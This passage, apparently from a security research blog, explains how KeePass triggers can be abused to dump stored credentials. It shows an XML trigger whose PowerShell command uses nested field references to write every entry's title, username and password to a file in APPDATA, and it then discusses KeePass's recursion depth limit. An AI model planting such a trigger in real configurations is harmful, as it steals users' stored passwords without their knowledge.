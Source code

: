 ```xml
				<Parameter>-C "if (!(Test-Path $env:APPDATA'\recursive_export.txt')) {New-Item -itemType File -Path $env:APPDATA -Name 'recursive_export.txt' | Out-Null}; Add-Content $env:APPDATA'\recursive_export.txt' \"{REF:I@I:0}:{REF:T@I:0}:{REF:U@I:0}:{REF:P@I:0}`n{REF:I@I:0 -{REF:I@I:0}}:{REF:T@I:0 -{REF:I@I:0}}:{REF:U@I:0 -{REF:I@I:0}}:{REF:P@I:0 -{REF:I@I:0}}`n{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}:{REF:T@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}:{REF:U@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}:{REF:P@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}`n{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}}:{REF:T@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}}:{REF:U@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}}:{REF:P@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}}`n{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}}}:{REF:T@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}}}:{REF:U@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}}}:{REF:P@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}} -{REF:I@I:0 -{REF:I@I:0} -{REF:I@I:0 -{REF:I@I:0}}}}}\";"</Parameter>
				<Parameter>False</Parameter>
				<Parameter>1</Parameter>
				<Parameter />
			</Parameters>
		</Action>
	</Actions>
</Trigger>
```

![recursive_export](/assets/img/blog/keepass_triggers/recursive_export.png){: .shadow}
_Every entry is successively matched and extracted with recursive field references._

Great! We are now able to recursively extract every entry of a database, unless.. KeePass had a placeholder resolution depth limit made to avoid infinite loops (that would for example occur if we set an entry's username to `{USERNAME}`).

![recursion_limit](/assets/img/blog/keepass_triggers/recursion_limit.png){: .shadow}
_`KeePass/Util/Spr/SprEngine`{: .filepath} source code includes a maximum depth of recursion._
